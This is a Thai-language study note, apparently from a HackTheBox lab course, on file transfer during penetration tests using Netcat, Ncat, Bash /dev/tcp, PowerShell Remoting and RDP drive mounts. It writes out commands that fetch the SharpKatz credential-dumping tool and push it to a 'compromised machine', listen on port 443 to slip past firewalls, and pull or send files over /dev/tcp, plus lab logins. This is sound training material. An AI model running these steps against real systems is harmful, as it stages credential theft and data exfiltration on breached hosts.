

# Miscellaneous File Transfer Methods

## บทนำ

เราได้เรียนรู้วิธีการถ่ายโอนไฟล์บน Windows และ Linux หลากหลายวิธีแล้ว รวมถึงการใช้ภาษาโปรแกรมมิ่งต่างๆ แต่ยังมีวิธีการและแอปพลิเคชันอื่นๆ อีกมากที่สามารถใช้ได้

ส่วนนี้จะครอบคลุมวิธีการทางเลือก เช่น:
- การถ่ายโอนไฟล์ด้วย **Netcat** และ **Ncat**
- การใช้ **RDP** สำหรับถ่ายโอนไฟล์
- การถ่ายโอนผ่าน **PowerShell Sessions**

---

## Netcat

### ภาพรวม

**Netcat (nc)** เป็นเครื่องมือเครือข่ายสำหรับอ่านและเขียนข้อมูลผ่าน TCP หรือ UDP ทำให้สามารถใช้ในการถ่ายโอนไฟล์ได้

### ประวัติ
- **Original Netcat:** เปิดตัวโดย Hobbit ในปี 1995
- **Ncat:** สร้างโดย Nmap Project เป็น reimplementation ที่ทันสมัย
  - รองรับ SSL, IPv6
  - รองรับ SOCKS และ HTTP proxies
  - มี Connection brokering และอื่นๆ

> **หมายเหตุ:** ใน HackTheBox PwnBox, Ncat ถูกติดตั้งเป็น `nc`, `ncat`, และ `netcat`

---

## การถ่ายโอนไฟล์ด้วย Netcat และ Ncat

### หลักการทำงาน
- **Target หรือ Attack Machine** สามารถเริ่มต้นการเชื่อมต่อได้
- มีประโยชน์เมื่อ Firewall บล็อกการเชื่อมต่อขาเข้า

---

## วิธีที่ 1: Target รับไฟล์ (Target เป็น Listener)

### ตัวอย่าง: ถ่ายโอน SharpKatz.exe

#### **บน Compromised Machine (Target):**

**ใช้ Original Netcat:**
```bash
nc -l -p 8000 > SharpKatz.exe
```
- `-l`: โหมด Listen
- `-p 8000`: ระบุพอร์ต 8000
- `> SharpKatz.exe`: Redirect output ไปยังไฟล์

**ใช้ Ncat:**
```bash
ncat -l -p 8000 --recv-only > SharpKatz.exe
```
- `--recv-only`: ปิดการเชื่อมต่อเมื่อรับไฟล์เสร็จ

#### **บน Attack Host:**

**ใช้ Original Netcat:**
```bash
# ดาวน์โหลดไฟล์ก่อน
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe

# ส่งไฟล์
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```
- `-q 0`: ปิดการเชื่อมต่อเมื่อส่งเสร็จ (quit after 0 seconds)
- `< SharpKatz.exe`: ส่งไฟล์เป็น input

**ใช้ Ncat:**
```bash
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe

ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
- `--send-only`: ปิดการเชื่อมต่อเมื่อ input หมด

---

## วิธีที่ 2: Attack Host เป็น Listener

### เมื่อไหร่ควรใช้
- เมื่อ **Firewall บล็อก Inbound Connections** ที่ Target
- Target สามารถเชื่อมต่อออกมาได้

### ขั้นตอนการใช้งาน

#### **บน Attack Host (Listener):**

**ใช้ Original Netcat:**
```bash
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
- ใช้พอร์ต 443 (HTTPS) เพื่อหลบเลี่ยง Firewall
- `< SharpKatz.exe`: ส่งไฟล์เป็น input

**ใช้ Ncat:**
```bash
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### **บน Compromised Machine (Client):**

**ใช้ Original Netcat:**
```bash
nc 192.168.49.128 443 > SharpKatz.exe
```

**ใช้ Ncat:**
```bash
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

---

## วิธีที่ 3: ใช้ /dev/tcp (เมื่อไม่มี Netcat)

### สถานการณ์
- เครื่อง Target **ไม่มี Netcat หรือ Ncat** ติดตั้ง
- แต่มี **Bash** ที่รองรับ `/dev/tcp`

### หลักการทำงาน
Bash รองรับการอ่าน/เขียนไปยัง pseudo-device file `/dev/tcp/host/port`

### ขั้นตอนการใช้งาน

#### **บน Attack Host (Listener):**

**ใช้ Original Netcat:**
```bash
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

**ใช้ Ncat:**
```bash
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### **บน Compromised Machine (ใช้ /dev/tcp):**

```bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```
- เชื่อมต่อไปยัง IP:Port ผ่าน `/dev/tcp`
- อ่านข้อมูลและบันทึกเป็นไฟล์

### การทำงานแบบย้อนกลับ
วิธีการเดียวกันสามารถใช้**ถ่ายโอนไฟล์จาก Target กลับไปยัง Pwnbox** ได้

---

## สรุปเปรียบเทียบ Netcat Methods

| ลักษณะ | Target Listen | Attack Host Listen | /dev/tcp |
|--------|---------------|-------------------|----------|
| **Target เป็น** | Listener | Client | Client |
| **Use Case** | Target รับ Inbound | Firewall บล็อก Inbound | ไม่มี nc/ncat |
| **ความปลอดภัย** | ต้องเปิดพอร์ตที่ Target | ปลอดภัยกว่า | ปลอดภัยกว่า |
| **ข้อกำหนด** | nc/ncat บน Target | nc/ncat บน Attack | Bash บน Target |

---

## PowerShell Session File Transfer

### ภาพรวม

**PowerShell Remoting (WinRM)** เป็นวิธีการถ่ายโอนไฟล์เมื่อ HTTP, HTTPS, หรือ SMB ไม่สามารถใช้ได้

### คุณสมบัติของ PowerShell Remoting
- อนุญาตให้รันสคริปต์หรือคำสั่งบนคอมพิวเตอร์ระยะไกล
- ผู้ดูแลระบบใช้สำหรับจัดการเครื่อง Remote
- สามารถใช้สำหรับถ่ายโอนไฟล์ได้

### Default Listeners
| Protocol | Port | Description |
|----------|------|-------------|
| HTTP | TCP/5985 | ไม่เข้ารหัส |
| HTTPS | TCP/5986 | เข้ารหัส |

### สิทธิ์ที่ต้องการ
1. มีสิทธิ์ **Administrator**
2. เป็นสมาชิกของกลุ่ม **Remote Management Users**
3. มีสิทธิ์ใน PowerShell Remoting session configuration

---

## ตัวอย่างการใช้งาน PowerShell Remoting

### สถานการณ์
- เราเป็น Administrator ที่ **DC01**
- มีสิทธิ์ Admin บน **DATABASE01**
- PowerShell Remoting เปิดใช้งานแล้ว

### ขั้นตอนที่ 1: ตรวจสอบการเชื่อมต่อ WinRM

```powershell
# ตรวจสอบตัวตน
whoami
# ผลลัพธ์: htb\administrator

hostname
# ผลลัพธ์: DC01

# ทดสอบการเชื่อมต่อ WinRM
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

**ผลลัพธ์:**
```
ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

### ขั้นตอนที่ 2: สร้าง PowerShell Remoting Session

```powershell
$Session = New-PSSession -ComputerName DATABASE01
```
- สร้าง Session ไปยัง DATABASE01
- เก็บผลลัพธ์ในตัวแปร `$Session`
- ไม่ต้องระบุ credentials เพราะมีสิทธิ์อยู่แล้ว

### ขั้นตอนที่ 3: คัดลอกไฟล์

#### **คัดลอกจาก Local (DC01) ไปยัง Remote (DATABASE01):**

```powershell
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```
- `-Path`: ไฟล์ต้นทาง (Local)
- `-ToSession`: Session ปลายทาง
- `-Destination`: ที่เก็บบน Remote

#### **คัดลอกจาก Remote (DATABASE01) มายัง Local (DC01):**

```powershell
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```
- `-Path`: ไฟล์ต้นทาง (Remote)
- `-FromSession`: ดึงจาก Session
- `-Destination`: ที่เก็บบน Local

---

## RDP (Remote Desktop Protocol)

### ภาพรวม
RDP เป็น Protocol ที่ใช้กันทั่วไปใน Windows Networks สำหรับการเข้าถึงระยะไกล

---

## วิธีที่ 1: Copy and Paste

### การใช้งานพื้นฐาน
- **คลิกขวา → Copy** ไฟล์จากเครื่อง Windows
- **Paste** ในเซสชัน RDP

### ข้อจำกัด
เมื่อเชื่อมต่อจาก Linux ผ่าน `xfreerdp` หรือ `rdesktop`:
- อนุญาตให้ Copy จาก Target → RDP Session
- อาจไม่ทำงานตามคาดในบางสถานการณ์

---

## วิธีที่ 2: Mount Local Folder

### หลักการ
Mount โฟลเดอร์จาก Local Machine ไปยัง Remote RDP Server

### ใช้ rdesktop

**Syntax:**
```bash
rdesktop <target_ip> -d <domain> -u <username> -p '<password>' -r disk:<share_name>=<local_path>
```

**ตัวอย่าง:**
```bash
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

### ใช้ xfreerdp

**Syntax:**
```bash
xfreerdp /v:<target_ip> /d:<domain> /u:<username> /p:'<password>' /drive:<share_name>,<local_path>
```

**ตัวอย่าง:**
```bash
xfreerdp3 /v:10.129.201.55 /d:HTB /u:htb-student /p:'HTB_@cademy_stdnt!' /drive:linux,/home/kali/test

```


### เข้าถึงโฟลเดอร์ที่ Mount

**ใน Windows RDP Session:**
```
\\tsclient\
```
- `\\tsclient\linux\` - เข้าถึงโฟลเดอร์ที่ Mount
- สามารถคัดลอกไฟล์ไปมาได้

---

## วิธีที่ 3: Windows Native mstsc.exe

### การใช้งาน

**1. เปิด Remote Desktop Connection:**
```
mstsc.exe
```

**2. คลิก "Show Options" → แท็บ "Local Resources"**

**3. ใน "Local devices and resources" → คลิก "More..."**

**4. เลือก Drives ที่ต้องการแชร์:**
- ✅ C:
- ✅ D:
- ✅ USB Drives

**5. เชื่อมต่อ RDP**

### การเข้าถึง
ใน Remote Session สามารถเข้าถึงผ่าน:
```
\\tsclient\c\
\\tsclient\d\
```

### 🔒 ความปลอดภัย
- Drive ที่ Mount **ไม่สามารถเข้าถึงโดยผู้ใช้คนอื่น** บน Target
- แม้จะ Hijack RDP Session ก็ไม่สามารถเข้าถึงได้

---

